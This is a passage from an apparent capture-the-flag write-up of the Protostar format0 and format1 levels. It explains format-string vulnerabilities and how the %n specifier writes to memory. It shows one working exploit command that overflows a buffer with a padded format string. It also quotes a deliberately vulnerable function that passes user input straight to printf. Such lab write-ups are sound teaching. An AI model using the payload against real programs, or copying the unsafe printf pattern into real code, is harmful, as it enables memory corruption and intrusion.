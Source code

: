 ## 8 = 68

`sprintf` reads parameters of the stack, based on the format-string it's
given. For example, a format-string of `%s` expects that there's a address
of a string, to print into the destination buffer.

`%64d` makes sprintf align the output to 64 characters.

By extension, my solution is a buffer overflow.

~~~
$ ./format0 `python -c "print('%64d\xef\xbe\xad\xde')`
you have hit the target correctly :)
~~~

:TODO: The solution above is a buffer overflow, look into 
solving the challenge without using a buffer overflow

## [format1](https://exploit-exercises.com/protostar/format1)

* * *

>###About
>
>This level shows how format strings can be used to modify arbitrary memory locations.
>
>Hints
>
> `objdump -t` is your friend, and your input string lies far up the stack :)

If you're not familiar with format-string exploits, then yep; You read
that right. Format-string exploits can be used to modify arbitrary
memory locations.

Take the `%n` formatter for example, the manual describes it as
follows:

>The number of characters written so far is stored into the integer
>indicated by the int * (or variant) pointer argument. No argument is
>converted

If you're bewildered by what the manual told you, the following piece of
pseudo-c illustrates it's functionality.

{% highlight c %}
int x;
char y[32];
sprintf(y, "123456789%n", &x);
printf("%d", x); // prints 9
{% endhighlight %}

Hopefully that makes it clear what the `%n` formatters functionality
is, let's continue with the actual challenge.

{% highlight c %}
int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}
{% endhighlight %}
